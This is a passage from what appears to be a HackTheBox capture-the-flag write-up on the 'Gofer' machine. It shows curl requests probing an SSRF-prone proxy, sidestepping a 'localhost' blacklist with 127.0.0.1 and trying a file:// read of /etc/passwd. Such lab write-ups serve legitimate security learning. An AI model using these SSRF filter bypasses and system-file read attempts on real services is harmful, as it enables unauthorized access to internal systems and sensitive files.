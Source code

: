 ```bash
Task Completed
```

<h1>User as jhudson</h1>

<h2>SSRF through proxy</h2>

Well that's a start at the very least. I'll read the response data with curl and go from there.


```bash
─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Active/Gofer]
└──╼ $curl -X POST http://proxy.gofer.htb/index.php
<!-- Welcome to Gofer proxy -->
<html><body>Missing URL parameter !</body></html>
```

I suppose a proxy requiring a url shouldn't be a surprise to me. Going through the normal motions I test localhost addresses and file addresses to check what further enumeration I can do from here.

```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Active/Gofer]
└──╼ $curl -X POST http://proxy.gofer.htb/index.php?url=localhost
<!-- Welcome to Gofer proxy -->
<html><body>Blacklisted keyword: localhost !</body></html>
```

```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Active/Gofer]
└──╼ $curl -X POST http://proxy.gofer.htb/index.php?url=127.0.0.1
<!-- Welcome to Gofer proxy -->
<!DOCTYPE html>
<html lang="en">

<head>
  <meta charset="utf-8">
  <meta content="width=device-width, initial-scale=1.0" name="viewport">

  <title>Gofer</title>
  <meta content="" name="description">
  <meta content="" name="keywords">

  <!-- Favicons -->
  <link href="assets/img/favicon.png" rel="icon">
  <link href="assets/img/apple-touch-icon.png" rel="apple-touch-icon">

  <!-- Google Fonts -->
  <link href="https://fonts.googleapis.com/css?family=Open+Sans:300,300i,400,400i,600,600i,700,700i|Raleway:300,300i,400,400i,500,500i,600,600i,700,700i|Poppins:300,300i,400,400i,500,500i,600,600i,700,700i" rel="stylesheet">

--THE REST OF gofer.htb LANDING PAGE--
```


```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Active/Gofer]
└──╼ $curl -X POST http://proxy.gofer.htb/index.php?url=file://etc/passwd
<!-- Welcome to Gofer proxy -->
<html><body>Blacklisted keyword: file:// !</body></html>
```
